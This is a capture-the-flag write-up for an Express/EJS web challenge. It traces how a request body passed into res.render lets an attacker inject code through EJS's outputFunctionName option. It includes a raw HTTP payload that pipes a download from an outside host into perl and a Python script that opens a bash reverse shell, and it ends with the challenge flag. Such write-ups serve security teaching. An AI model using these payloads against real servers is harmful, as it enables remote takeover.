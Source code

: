 # echo

## Description:

![Description](./desc.jpg)

## Solution:

The line `<!-- /echo.zip -->` is in the website's source, thus to get the source code:

```console
root@kali:~# curl -k https://eductf.zoolab.org:49007/echo.zip > echo.zip
```

The main function is the following lines:

```javascript
app.post("/", (req, res) => {
  let data = req.body;
  res.render("echo.ejs", data);
});
```

The important thing here is that it passes `req.body` to `res.render` straight away, which can be fully controlled by user.

```javascript
// express/lib/response.js
res.render = function render(view, options, callback);
```

The second argument is supposed to be `data`, but in the definition is `options` instead. This is because `express.js` supplies some option values to the template engine to control its render behaviour, but it doesn't separate these options with the input argument (`data`), which causes an vulnerability.

The simplified implementation of `ejs.renderFile(view, options, callback)`:

```javascript
// ejs/lib/ejs.js
exports.renderFile = function () {
  var args = Array.prototype.slice.call(arguments);
  var filename = args.shift();
  var cb;
  var opts = {filename: filename};
  var data;
  var viewOpts;

  cb = args.pop();
  data = args.shift();

  viewOpts = data.settings['view options'];
  if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
  }

  return tryHandleCache(opts, data, cb);
```

Here, `data` is our initial `req.body`. If the property `.settings['view options']` is present, its property object will be saved into `opts`, and sent to `tryHandleCache`. This will then call a series of functions.

```javascript
# ejs/lib/ejs.js
tryHandleCache(opts, data, cb)
    handleCache(opts)(data)
        compile(template, opts)
            new Template(template, opts)
                Template.compile()
```

As can be seen in `Template`'s constructor, `opts.outputFunctionName` will be saved.

```javascript
// ejs/lib/ejs.js
function Template(text, opts) {
    options.outputFunctionName = opts.outputFunctionName;
    this.opts = options;
```

Finally, in `compile()`, `outputFunctionName` will be appended into the compiled template javascript. Therefore, by controlling this variable, we can achieve arbitrary write of javascript code, and RCE.

```javascript
// ejs/lib/ejs.js
compile: function () {
    var opts = this.opts;

    if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
    }
}
```

### Raw HTTP Exploit

```
POST / HTTP/1.1
Host: eductf.zoolab.org:49007
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 133

settings[view options][outputFunctionName]=_;process.mainModule.constructor._load("child_process").exec("curl cyku.tw:8787 | perl");_
```

### Python Exploit

```python
import sys
import requests
import base64
import urllib.parse

if len(sys.argv) != 4:
    print()
    print('    Usage: python3 exploit.py <target url> <your ip> <your port>')
    print('         Example: python3 exploit.py http://localhost 54.87.54.87 8787')
    print()
    exit()

target = sys.argv[1]    # http://localhost
your_ip = sys.argv[2]   # 54.87.54.87
your_port = sys.argv[3] # 8787

command = base64.b64encode(f'/bin/bash -i >& /dev/tcp/{your_ip}/{your_port} 0>&1'.encode()).decode()
command = urllib.parse.quote(f'echo {command}|base64 -d|bash')
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
res = requests.post(target, headers=headers, data=f'settings[view options][outputFunctionName]=_;process.mainModule.constructor._load("child_process").exec("{command}");_', verify=False)
```

`FLAG{I_th1nk_cyku_i5_0ur_w3b_g0d}`
